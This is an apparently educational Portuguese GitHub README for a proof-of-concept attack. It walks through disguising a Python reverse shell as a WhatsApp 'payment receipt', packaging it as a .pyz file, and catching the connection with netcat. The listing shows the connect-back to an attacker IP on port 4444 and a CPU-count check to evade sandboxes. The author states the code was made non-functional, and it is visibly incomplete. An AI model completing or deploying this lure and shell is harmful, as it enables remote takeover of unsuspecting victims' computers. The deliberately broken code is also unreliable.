# PoC: Reverse Shell via Simulação de Ataque no WhatsApp

> _Projeto educacional que demonstra os riscos da engenharia social, simulando como um simples arquivo no WhatsApp pode resultar em um reverse shell._

---

## ⚠️ Aviso Ético e Legal

> Este projeto foi desenvolvido para fins **estritamente educacionais** e de estudo em cibersegurança. O objetivo é entender como um vetor de ataque funciona para, assim, criar defesas mais eficazes.
>
> **Não utilize este código em sistemas ou redes nos quais você não tenha permissão explícita.** O uso indevido de ferramentas de segurança para atacar sistemas sem consentimento é ilegal e antiético. O autor não se responsabiliza pelo mau uso das informações aqui contidas.

## 📝 Sobre o Projeto

Este repositório contém o código e a documentação de uma Prova de Conceito (PoC) que simula um ataque de engenharia social. O cenário envolve um atacante que envia um "comprovante de pagamento" malicioso (um script Python empacotado) para uma vítima através de um mensageiro como o WhatsApp. Ao ser executado, o arquivo estabelece uma conexão reversa (reverse shell), dando ao atacante acesso ao terminal da máquina da vítima.

## 🛠️ Tecnologias Utilizadas

* **Linguagem:** `Python 3`
* **Listener:** `Netcat`
* **Empacotamento:** Módulo `zipapp` do Python
* **Ambiente do Atacante:** Kali Linux (ou outra distro Linux)
* **Ambiente do Alvo:** Windows 10/11
* **Virtualização:** VirtualBox 

### Pré-requisitos

* Duas máquinas (físicas ou virtuais): uma para o atacante (Kali) e uma para o alvo (Windows).
* Ambas as máquinas precisam estar na mesma rede e visíveis uma para a outra.
* A máquina alvo (Windows) precisa ter o **Python 3 instalado** para que possa interpretar e executar o arquivo `.pyz`.


### Passo 1: Configurar o Payload

Abra o arquivo de script (`NOMEDOARQUIVO.py`) e altere a variável `HOST` para o endereço IP da sua máquina atacante.

```python
import os
import socket
import subprocess
import time

if os.cpu_count() <= 2:
    quit()

# O script não funcionará sem que um IP válido seja inserido manualmente.
HOST = 'IP'
PORT = 4444

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((HOST, PORT))
    s.sendall(b"[*] Connection Established!\\n")
except Exception:
    quit()

while True:
    try:
        s.sendall(os.getcwd().encode() + b"> ")
        data = s.recv(2048).decode("UTF-8", errors="ignore").strip()
        if not data or data.lower() in ["quit", "exit"]:
            break
        if data.lower().startswith("cd "):
            try:
                os.chdir(data[3:].strip()) 
                s.sendall(b"\\n")
            except FileNotFoundError:
                s.sendall(f"Directory not found: {data[3:].strip()}\\n".encode())
            continue
s.close()
```

> Nota de Segurança: Este código foi intencionalmente modificado para não ser funcional e prevenir o uso indevido. O projeto destina-se apenas a fins educacionais e de estudo.

### Passo 2: Configurar o arquivo

No terminal do Kali, navegue até a pasta do projeto e execute:

```bash
python3 -m zipapp Comprovante.py -o Comprovante.pyz
```

<img width="1274" height="225" alt="Captura de tela 2025-10-07 104605" src="https://github.com/user-attachments/assets/ecbfc5c0-9903-4bf2-99b4-6f6d3e9cedeb" />

### Passo 3: Iniciar o Listener

Na máquina atacante, inicie o **`netcat`** para escutar na porta configurada:

<img width="286" height="81" alt="Captura de tela 2025-10-07 105129" src="https://github.com/user-attachments/assets/3f74e1d1-4b55-4c55-a38b-747646398fb8" />

### Passo 4: Entregar e Executar o Payload

Envie o arquivo **`Comprovante.pyz`** para a máquina alvo e execute-o. Uma conexão reversa será estabelecida com o seu listener.


### PoC - Prova de Conceito - VIDEO EXPLICATIVO ###

https://github.com/user-attachments/assets/25740744-582e-4ac1-9a67-efee4bfec39a


### Ataque Concluido 


* A busca por respostas pode custar mais do que imagina. Proteja-se.


